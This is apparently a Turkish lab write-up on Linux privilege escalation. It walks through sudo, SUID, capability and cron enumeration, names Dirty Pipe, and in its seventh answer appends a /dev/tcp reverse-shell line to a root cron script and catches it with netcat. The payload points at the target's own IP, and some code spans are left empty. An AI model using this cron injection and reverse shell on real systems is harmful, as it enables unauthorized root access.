




# Privilege Escalation

## İlk Erişim (SSH)

Hedef makineye verilen bilgiler kullanılarak SSH bağlantısı kurulmuştur.

**Bağlantı Bilgileri:**

* Kullanıcı adı: `user1`
* Parola: `password123`
* Hedef IP: `172.20.11.95`
* Tarih: `16.12.2025`

Kullanılan komut:

```bash
ssh user1@172.20.11.95
```

Parola girildikten sonra sisteme başarıyla giriş yapılmıştır.

---

## Soru 1 – Parolasız Çalıştırılabilen Sudo Komutu

Sistemde `sudo` yetkilerinin incelenmesi için aşağıdaki komut çalıştırılmıştır:

```bash
sudo -l
```

Komut çıktısı:

```text
Matching Defaults entries for user1 on debian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User user1 may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/file
```

Bu çıktıdan, `` komutunun parola sorulmadan (`NOPASSWD`) çalıştırılabildiği anlaşılmaktadır.

**Cevap:** `/usr/bin/file`

> 

---

## Soru 2 – SUID Biti Etkin Programın Tespiti

Yetki yükseltmeye uygun SUID (Set User ID) biti etkin dosyaları tespit etmek için aşağıdaki `find` komutu kullanılmıştır:

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Komut çıktısı:

```text
-rwsr-xr-x 1 root root 35040 Jan 20  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 311008 Jan  9  2021 /usr/bin/find
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 55528 Jan 20  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 71912 Jan 20  2022 /usr/bin/su
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 182600 Jan 14  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 481608 Dec 21  2023 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51336 Jun  6  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Bu listede `` binary dosyasının SUID biti etkin olduğu görülmektedir. `find` komutu, yanlış yapılandırmalarda GTFOBins kapsamında yetki yükseltme için kullanılabildiğinden kritik bir bulgudur.

**Cevap:** `/usr/bin/find`



---

## Soru 3 – `cap_setuid` Yeteneği Verilmiş Programın Tespiti

Sistemde Linux capabilities atanmış binary dosyaları tespit etmek amacıyla `getcap` aracı kullanılmıştır. Öncelikle aracın sistemdeki konumu doğrulanmıştır:

```bash
whereis getcap
```

Ardından tüm dosya sistemi üzerinde capabilities taraması yapılmıştır:

```bash
/usr/sbin/getcap -r / 2>/dev/null
```

Komut çıktısı:

```text
/usr/bin/ping cap_net_raw=ep
/usr/bin/python3.9 cap_setuid=ep
```

Bu çıktıya göre `` binary dosyasına `cap_setuid` yeteneği verilmiştir. Bu capability, ilgili programın UID değiştirebilmesine olanak tanıdığından, yanlış yapılandırılmış sistemlerde doğrudan yetki yükseltme (privilege escalation) için kullanılabilir.

**Cevap:** `/usr/bin/python3.9`


---

## Soru 4 – Kernel Versiyonunun Tespiti

Sistemde çalışan Linux kernel sürümünü öğrenmek için aşağıdaki komut kullanılmıştır:

```bash
uname -r
```

Komut çıktısı:

```text
5.11.0-051100-generic
```

Bu çıktıya göre hedef sistemde çalışan kernel versiyonu **5.11.0-051100-generic** olarak belirlenmiştir.

**Cevap:** `5.11.0-051100-generic`

---

## Soru 5 – Kernel Yetki Yükseltme Zafiyetinin Tespiti

Önceki adımda tespit edilen **5.11.0-051100-generic** kernel sürümü için bilinen yerel yetki yükseltme (Local Privilege Escalation) zafiyetleri araştırılmıştır.

Bu kernel sürümünü etkileyen yaygın ve kritik zafiyet **Dirty Pipe** olarak bilinmektedir.

* Zafiyet adı: **Dirty Pipe**
* CVE: **CVE-2022-0847**

Dirty Pipe zafiyeti, Linux kernel pipe mekanizmasındaki bir hatadan faydalanarak salt-okunur dosyalara yazma ve sonuç olarak root yetkilerine yükselme imkânı sunar.

**Cevap:** Dirty Pipe

---

## Soru 6 – Root Yetkileriyle Çalışan Zamanlanmış Görevin Tespiti

Sistemde root yetkileriyle çalışan zamanlanmış görevleri incelemek için sistem genelindeki crontab dosyası kontrol edilmiştir:

```bash
ls -l /etc/crontab
cat /etc/crontab
```

Crontab içeriği incelendiğinde, her dakika (`* * * * *`) root kullanıcısı tarafından çalıştırılan aşağıdaki görev tespit edilmiştir:

```text
*  *  * * *   root    /usr/local/bin/backup_auth_log.sh
```

Bu satırdan, `` adlı scriptin her dakika root yetkileriyle çalıştırıldığı anlaşılmaktadır. Yanlış dosya izinleri veya içerik kontrolü eksikliği durumunda bu tür cron görevleri doğrudan yetki yükseltme için istismar edilebilir.

**Cevap:** `backup_auth_log.sh`

---

## Soru 7 – Root Kullanıcısının Favori Şehrinin Tespiti

Önceki adımda tespit edilen, her dakika root yetkileriyle çalışan cron scripti istismar edilerek root seviyesinde bir kabuk (reverse shell) elde edilmiştir.

Reverse shell payload’ı oluşturmak için **revshells.com** sitesinden yararlanılmış ve aşağıdaki payload elde edilmiştir:

```bash
sh -i >& /dev/tcp/172.20.11.95/4444 0>&1
```

Bu payload, root yetkileriyle çalışan cron scriptinin sonuna eklenmiştir:

```bash
echo "sh -i >& /dev/tcp/172.20.11.95/4444 0>&1" >> /usr/local/bin/backup_auth_log.sh
```

Ardından saldırgan makinede dinleme başlatılmıştır:

```bash
nc -lvnp 4444
```

Cron görevi tetiklendikten sonra bağlantı alınmış ve yetki seviyesi doğrulanmıştır:

```bash
id
```

Çıktıdan root yetkileriyle erişim sağlandığı doğrulanmıştır. Root dizininde yapılan incelemeler sonucunda istenen bilgiye ulaşılmıştır.

**Root kullanıcısının favori şehri:** `rome`

**Cevap:** rome



---

## Soru 8 – Dinamik Kütüphane Yükleme Ortam Değişkeni

Linux sistemlerde bir binary dosya çalıştırılmadan önce dinamik olarak kütüphane yüklenmesini kontrol eden ortam değişkeni aşağıdaki gibidir:

* **LD_LIBRARY_PATH**

Bu ortam değişkeni, dinamik bağlayıcının (`ld-linux`) hangi dizinlerde paylaşımlı kütüphaneleri arayacağını belirler. Yanlış yapılandırılmış veya güvenliği zayıf sistemlerde, bu değişken kullanılarak zararlı kütüphaneler yüklenebilir ve yetki yükseltme sağlanabilir.

**Cevap:** `LD_LIBRARY_PATH`

---

## Soru 9 – Yetki Yükseltme Payload ve Binary Listesi

Yanlış yapılandırılmış sistemlerde yerel güvenlik kısıtlamalarını aşmak için derlenmiş Unix komutlarını, SUID binary’lerini ve yetki yükseltme tekniklerini içeren yaygın listenin adı **GTFOBins**’tir.

GTFOBins, özellikle SUID, sudo ve capability tabanlı yetki yükseltme senaryolarında referans olarak kullanılan önemli bir kaynaktır.

**Cevap:** GTFOBins

---

